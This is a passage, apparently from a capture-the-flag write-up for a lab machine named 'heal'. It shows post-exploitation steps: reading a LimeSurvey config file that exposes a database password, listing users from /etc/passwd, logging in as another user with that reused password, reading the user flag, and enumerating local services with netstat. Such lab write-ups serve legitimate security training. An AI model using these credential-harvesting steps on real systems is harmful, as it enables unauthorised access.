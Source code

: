 ```bash
$urlStyle = $config['components']['urlManager']['urlFormat'];

// Simple redirect to still have the old /admin URL
if ($urlStyle == 'path') {
    header('Location: ../index.php/admin');
} else {
    // For IIS use get style
    header('Location: ../index.php?r=admin');
}
```



```bash
www-data@heal:~/limesurvey/application/config$ cat config.php
<?php if (!defined('BASEPATH')) exit('No direct script access allowed');

...[snip]...

return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
			'emulatePrepare' => true,
			'username' => 'db_user',
			'password' => 'AdmiDi0_pA$$w0rd',
			'charset' => 'utf8',
			'tablePrefix' => 'lime_',
		),
```



```bash
www-data@heal:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
ron:x:1001:1001:,,,:/home/ron:/bin/bash
www-data@heal:/$ su ralph
Password: 
su: Authentication failure
www-data@heal:/$ su ron
Password: 
ron@heal:/$ cat /home/ron/user.txt 
5a4c50cd03979eab6aa0c197792d4ec3
```



```bash
ron@heal:~$ netstat -ano
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8503          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3001          0.0.0.0:*               LISTEN      off (0.00/0/0)
```
